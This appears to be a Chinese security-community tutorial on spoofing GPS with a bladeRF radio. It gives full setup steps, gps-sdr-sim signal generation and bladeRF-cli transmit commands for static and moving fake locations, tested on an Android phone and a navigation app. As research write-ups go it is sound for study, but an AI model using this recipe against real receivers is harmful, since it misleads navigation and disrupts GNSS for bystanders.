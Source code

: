 

# 使用 bladeRF 进行 GPS 欺骗 - 先知社区

使用 bladeRF 进行 GPS 欺骗

- - -

## 简介

> BladeRF 是一款软件定义无线电 (SDR) 平台，由 Nuand 公司开发。它是一个高性能、可编程的设备，使用户能够发送和接收无线电频率信号。SDR 技术允许用户通过软件来控制无线电通信的各个方面，而不是传统的硬件方法

刚好手边有一块 BladeRF 的板子，尝试实现对手机和车机的 GPS 欺骗攻击

## GPS 简介

GPS（全球定位系统）是一种基于卫星导航的定位技术，通过使用一组卫星在空间中确定接收器的位置  
运行于宇宙空间的 GPS 卫星，每一个都在时刻不停地通过卫星信号向全世界广播自己的当前位置坐标信息，在发送位置的同时还会附上自己的时间戳，GPS 接收器收到卫星 GPS 数据的时候，根据时间戳和光速可以算出自己和卫星的直线距离。  
理论上来说，三维空间中 三对卫星 GPS 数据就可以确定一个点了，但是现实中要确定一个点至少需要四颗卫星，多出来的一颗卫星就是用于消除和减少误差的，保证定位有效  
[![](assets/1706771133-e13dfa2a07b479869531380780a11046.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706672137698-89b5a24a-3b14-4c35-a764-bdd668b9e4b9.png#averageHue=%23f0eeeb&clientId=u67f7ae35-39eb-4&from=paste&id=u998a79f1&originHeight=404&originWidth=570&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=u429fb162-e02c-49d6-8ace-7b12ba441f7&title=)

## 环境搭建

### bladeRF 设备识别

这里使用 kali 搭建环境（尝试了在 windows 下运行，虽然能识别到 bladeRF 设备，但是运行起来还是有奇奇怪怪的问题，如果还是想自己尝试一下 windows 环境的话可以参考官方文档 - [https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Windows](https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Windows) ）

参考官方文档 - [https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Linux](https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Linux)

先将虚拟机的 USB 调整成 USB3.1  
[![](assets/1706771133-feac4b37e78af9e0542d9848f0eefc62.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706603121109-e2f1e953-fda7-4d68-be69-a7753f8b8ea4.png#averageHue=%23f7f3f3&clientId=u83451815-4164-4&from=paste&height=421&id=ufb684df4&originHeight=421&originWidth=942&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=42031&status=done&style=none&taskId=u7cbecc35-0b7b-4075-9f98-97ffbb6617d&title=&width=942)

安装 BladeRF 工具

```bash
$ sudo add-apt-repository ppa:nuandllc/bladerf 
$ sudo apt-get update 
$ sudo apt-get installbladerf
```

安装 header 文件

```bash
$ sudo apt-get install libbladerf-dev
```

安装 bladeRF 固件和 FPGA 镜像，自行选择

```bash
$ sudo apt-get installbladerf-firmware-fx3 # 适用于所有型号 bladeRF 的固件
$ sudo apt-get installbladerf-fpga-hostedx40 # 适用于 bladeRF x40 
$ sudo apt-get installbladerf-fpga-hostedx115 # 适用于 bladeRF x115 
$ sudo apt-get 安装 bladerf-fpga-hostedxa4 # 适用于 bladeRF 2.0 Micro A4 
$ sudo apt-get installbladerf-fpga-hostedxa9 # 适用于 bladeRF 2.0 Micro A9
```

安装依赖（这个一定要安装，至少 usb 的那两个要安装，不然会识别不到设备

```bash
sudo apt-get install libusb-1.0-0-dev libusb-1.0-0 build-essential cmake libncurses5-dev libtecla1 libtecla-dev pkg-config git wget
```

一切就绪之后，插上设备，使用命令就可以看到脸上的 bladeRF 了

```bash
bladeRF-cli -p
```

[![](assets/1706771133-61d87c78d51e03434c9bdea18bf5cdcf.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706603531682-5f124a4c-957f-405a-b866-4d9488260fed.png#averageHue=%23272b38&clientId=u83451815-4164-4&from=paste&height=142&id=u31edb77b&originHeight=213&originWidth=519&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=51831&status=done&style=none&taskId=ua3d76d50-be0e-4f9c-b1b4-7d866df50c5&title=&width=346)

### 生成 GPS 数据

我们利用 bladeRF 来收发 GPS 数据，GPS 数据的来源需要使用 gps-sdr-sim - [https://github.com/osqzss/gps-sdr-sim](https://github.com/osqzss/gps-sdr-sim)工具来静态生成

```bash
git clone https://github.com/osqzss/gps-sdr-sim.git
cd gps-sdr-sim
gcc gpssim.c -lm -O3 -o gps-sdr-sim
```

在谷歌在线地图上面选择一个坐标，我这里选择澳门葡京娱乐场，经纬度为 22.18982545839303, 113.544124355456  
[![](assets/1706771133-f5837f874e6a4cf507008073ec40e07c.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706589365087-ef7f2f3d-56d9-406c-945a-7d6657c26711.png#averageHue=%23c8ebd3&clientId=ue69a2480-96fa-4&from=paste&height=606&id=u7684b48a&originHeight=909&originWidth=1438&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1096828&status=done&style=none&taskId=u416a9dfc-920d-414d-8dc9-4e48ad6e021&title=&width=958.6666666666666)  
使用项目源码中自带的卫星星历生成 GPS 数据，生成澳门新葡京的固定坐标数据

```bash
./gps-sdr-sim -e brdc0010.22n -l 22.18982545839303,113.544124355456,100 -b 16
```

[![](assets/1706771133-0575b76a19944c10b82bb804b8ca82fb.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706610910066-3f299f14-7113-4fd8-b6af-a7e3ade9834b.png#averageHue=%232a2f3c&clientId=u67f7ae35-39eb-4&from=paste&height=372&id=u62241abc&originHeight=372&originWidth=640&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=113255&status=done&style=none&taskId=uf9548f7c-1290-4c2c-aa77-679d43d3759&title=&width=640)  
这里的 gpssim.bin 文件就是模拟生成的 GPS 数据  
[![](assets/1706771133-ee1e22ecd1676280b9cf9d4a1144c765.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706610945529-44dd6b04-0458-4a29-8f50-9332fb01a5b3.png#averageHue=%232f3440&clientId=u67f7ae35-39eb-4&from=paste&height=347&id=u2b834577&originHeight=347&originWidth=613&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=126056&status=done&style=none&taskId=u9f34b65c-2548-432c-9475-050dfc57275&title=&width=613)

## GPS 欺骗

### 手机静态 GPS 欺骗

bladeRF 进入交互模式

```bash
# bladeRF-cli -i
bladeRF> set frequency tx1 1575.42M

  TX1 Frequency: 1575419998 Hz (Range: [47000000, 6000000000])

bladeRF> set samplerate tx1 2.6M

  Setting TX1 sample rate - req:   2600000 0/1Hz, actual:   2600000 0/1Hz

bladeRF> set bandwidth tx1 2.5M

  TX1 Bandwidth:   2500000 Hz (Range: [200000, 56000000])

bladeRF> tx config file=gpssim.bin format=bin channel=1
bladeRF> tx start
bladeRF> tx wait
```

[![](assets/1706771133-0f3796c780cbddb2eee0b04d96f9def5.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706610786702-e9fbcad0-f6b4-4a9e-b2f5-6928fbd0c473.png#averageHue=%23282d39&clientId=u67f7ae35-39eb-4&from=paste&height=302&id=u61be7361&originHeight=302&originWidth=642&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=83610&status=done&style=none&taskId=u23b20a65-c394-4654-b664-31fa194ebdc&title=&width=642)  
AOSP（Android 10）手机打开 GPS Test 这个软件，因为它是仅 GPS 的，所以纯纯被欺骗  
[![](assets/1706771133-c54714ba107bb0534ed930b748afeb31.jpeg)](https://cdn.nlark.com/yuque/0/2024/jpeg/21398751/1706610751260-e705ad24-ca9b-4d46-8d20-199a394357f7.jpeg#averageHue=%23385c4b&clientId=u67f7ae35-39eb-4&from=paste&height=1616&id=u7746e000&originHeight=1616&originWidth=1280&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1119961&status=done&style=none&taskId=u13d2fd9b-7134-498b-bb87-27cf16fe6fc&title=&width=1280)  
虽然有一点点的偏差（可能是我用的星历比较老），但可以看出来 GPS 已经被欺骗了（本来在室内环境下不能识别到卫星信号）

### 联网状态下定位欺骗

> 联网状态下能实现定位欺骗吗

测试之前我觉得是不能的  
手机联网状态下高德竟然也可以被欺骗....原因可能是多样的，比如我这个测试机没有手机卡，Android 版本比较低等等  
[![](assets/1706771133-b10a542c2ac9c3f1a9f86153bd3983fb.jpeg)](https://cdn.nlark.com/yuque/0/2024/jpeg/21398751/1706667160643-a4d1a628-a036-46f2-93b1-b98d82ff1fd8.jpeg#averageHue=%233d4545&clientId=u67f7ae35-39eb-4&from=paste&height=1706&id=u2f8501d2&originHeight=1706&originWidth=1280&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=597015&status=done&style=none&taskId=u235846af-d7d3-4618-98f8-c780bab6315&title=&width=1280)

使用

### 动态 GPS 欺骗

在在线网址上画路径 - [https://earth.google.com/](https://earth.google.com/)  
[![](assets/1706771133-a1c9690f78be06cf1e3e2b38488b6684.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706671397068-230d7cc1-b0de-491b-977c-1e1d9c79288b.png#averageHue=%23677883&clientId=u67f7ae35-39eb-4&from=paste&height=329&id=ub593b13e&originHeight=493&originWidth=612&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=710638&status=done&style=none&taskId=uaab6a07a-08f0-4e54-b054-1dd33d0756e&title=&width=408)  
导出为 KML，接着将 kml 格式数据导入 SatGEN，生成 MNEA 格式文件  
[![](assets/1706771133-3006080df91d2bc1d29d227c8ab43a2b.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706672756909-4dd1c053-216b-4b2f-b4be-f02f382f1880.png#averageHue=%23cbb79e&clientId=u67f7ae35-39eb-4&from=paste&height=534&id=u53eab0e6&originHeight=801&originWidth=1258&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=170736&status=done&style=none&taskId=u5e67faf8-7db4-4961-8f02-a82fceab907&title=&width=838.6666666666666)  
生成内容如下  
[![](assets/1706771133-20ccf6abe39beb6efd597152f0823a7a.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706672933644-ab7e2b52-3e46-465d-840a-700a9ab7b9ef.png#averageHue=%2333302e&clientId=u67f7ae35-39eb-4&from=paste&height=385&id=ud2ccbd6a&originHeight=577&originWidth=1104&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=207443&status=done&style=none&taskId=ue9fedd2d-ac25-475f-8602-bd515dc521f&title=&width=736)  
使用 gps-sdr-sim 生成轨迹数据

```bash
./gps-sdr-sim -e brdc0010.22n -g KMLoutput.txt -b 16
```

[![](assets/1706771133-302590920e43a0d5d77f663a706a7f6f.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706675542488-d98abfc5-e764-4f28-88a0-052d7c6904f3.png#averageHue=%232d313c&clientId=u33bbd212-41e5-4&from=paste&height=321&id=u4e0b6272&originHeight=321&originWidth=530&originalType=binary&ratio=1&rotation=0&showTitle=false&size=83610&status=done&style=none&taskId=ub103f47e-b74b-4206-a898-7bf9f825e7e&title=&width=530)  
最后按照之前的方法使用 bladeRF-cli 进行欺骗即可，打开高德地图可以看到正在按照我们之前的路线行进，欺骗成功  
[![](assets/1706771133-016eef6ceaf3230ee274dc2c41431e8c.jpeg)](https://cdn.nlark.com/yuque/0/2024/jpeg/21398751/1706676005112-b4ebb486-c4fb-415d-ae3a-21465458949e.jpeg#averageHue=%2390968b&clientId=u33bbd212-41e5-4&from=paste&height=4096&id=ubeba984f&originHeight=4096&originWidth=3072&originalType=binary&ratio=1&rotation=0&showTitle=false&size=3880949&status=done&style=none&taskId=ub371095d-479e-42b5-9471-06968ee2501&title=&width=3072)

## 参考链接

-   [https://www.anquanke.com/post/id/204316](https://www.anquanke.com/post/id/204316)
-   [https://bbs.kanxue.com/thread-271306.htm](https://bbs.kanxue.com/thread-271306.htm)
-   [https://mp.weixin.qq.com/s/y\_seB1mt1Oa1SGZBE0skNQ](https://mp.weixin.qq.com/s/y_seB1mt1Oa1SGZBE0skNQ)
-   [https://xz.aliyun.com/t/124](https://xz.aliyun.com/t/124)
-   [https://www.cnblogs.com/magicboy110/articles/1901669.html](https://www.cnblogs.com/magicboy110/articles/1901669.html)
-   [https://zhuanlan.kanxue.com/article-12936.htm](https://zhuanlan.kanxue.com/article-12936.htm)
-   [https://github.com/Nuand/bladeRF/wiki](https://github.com/Nuand/bladeRF/wiki)
-   [https://blog.csdn.net/OpenSourceSDR/article/details/108857782](https://blog.csdn.net/OpenSourceSDR/article/details/108857782)
-   [https://www.blackhat.com/docs/eu-15/materials/eu-15-Kang-Is-Your-Timespace-Safe-Time-And-Position-Spoofing-Opensourcely-wp.pdf](https://www.blackhat.com/docs/eu-15/materials/eu-15-Kang-Is-Your-Timespace-Safe-Time-And-Position-Spoofing-Opensourcely-wp.pdf)
-   [https://blog.csdn.net/qq\_43066145/article/details/124802734](https://blog.csdn.net/qq_43066145/article/details/124802734)
-   [https://www.mrskye.cn/archives/5d9be0ae/](https://www.mrskye.cn/archives/5d9be0ae/)
